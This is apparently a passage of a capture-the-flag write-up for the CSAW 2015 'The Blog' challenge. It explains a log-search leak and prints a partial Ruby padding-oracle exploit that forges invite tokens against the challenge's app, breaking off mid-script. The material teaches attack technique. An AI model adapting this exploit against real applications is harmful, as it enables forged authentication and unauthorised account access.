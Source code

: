 If one were to search for `logstash`, the results page would include all of the application's logs!

### Putting it all together

To forge a valid invite token for *The Blog*, an attacker needs to exploit the padding oracle vulnerability, searching for `logstash` for each attempt to find the class of the exception that was raised. Once an invite is forged, an account can be created and a post can be voted for, disclosing the "flag". Here's an exploit:

```ruby
require 'faraday'
require 'nokogiri'
require 'active_support'
require 'base64'
require 'json'
require 'securerandom'

LOG_URL = 'https://csaw2015-the-blog.herokuapp.com/posts/search?utf8=%E2%9C%93&q=logstash&commit=Search'
INVITE_URL = 'https://csaw2015-the-blog.herokuapp.com/users/new'
PADDING_EXCEPTION = "ActiveSupport::MessageEncryptor::InvalidMessage"
VERIFIER = ActiveSupport::MessageVerifier.new(
  'aes-256-cbc',
  digest: 'SHA1',
  serializer: ActiveSupport::MessageEncryptor::NullSerializer
)

def padding_error?(data)
  invite = generate_invite(data)
  eid = SecureRandom.hex
  res = Faraday.get INVITE_URL, invite: invite, eid: eid
  res.status == 500 && get_exception_class(eid) == PADDING_EXCEPTION
end

def generate_invite(data)
  iv = data[0].pack('C*')
  body = data[1..-1].flatten.pack('C*')
  VERIFIER.generate(
    [Base64.strict_encode64(body), Base64.strict_encode64(iv)].join('--')
  )
end

def get_exception_class(id)
  logs = get_logs

  # Find request that triggered exception.
  exception_request = logs.find_index do |l|
    l["params"] && l["params"]["eid"] == id
  end

  # Find exception.
  exception = logs[exception_request..-1].find do |l|
    l['severity'] == 'FATAL'
  end

  # Parse out the exception class.
  if exception.present?
    exception["message"].strip.split(/\s/).first
  else
    return
  end
end

def get_logs
```